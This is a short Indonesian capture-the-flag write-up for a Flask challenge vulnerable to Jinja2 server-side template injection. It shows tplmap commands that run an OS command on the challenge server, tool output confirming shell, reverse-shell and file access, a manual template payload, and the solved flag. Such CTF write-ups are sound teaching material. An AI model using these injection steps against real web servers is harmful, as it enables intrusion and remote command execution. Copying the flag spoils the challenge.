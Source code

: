 Mimin baru ajaa nih buat Website menggunakan Flask :D, Silahkan dicoba-coba nih.

Link : http://103.157.96.13:7785/


Referensi
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
https://github.com/epinna/tplmap

Dengan Tools
```
git clone https://github.com/epinna/tplmap
cd tplmap
python2 -m pip install req.txt
python2 tplmap.py -u 'http://103.157.96.13:7785/?nama=KKKKK' --os-cmd "ls -la"

[+] Testing if GET parameter 'nama' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: nama
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

total 28
dr-xr-xr-x 1 ctf  ctf  4096 Dec 17 04:57 .
drwxr-xr-x 1 root root 4096 Dec 17 04:57 ..
-rw-r--r-- 1 ctf  ctf   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ctf  ctf  3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 ctf  ctf   807 Feb 25  2020 .profile
-rw-r--r-- 1 root root  601 Dec 17 04:41 server.py
drwxr-xr-x 1 root root 4096 Dec 17 04:58 templates

```


Manual Payload
```
{{ config.items() }}
```

Flag:
```
CTFR{s0m3_s3rv3r_s1d3_t3mpl4t3_1nj3ct10n}
```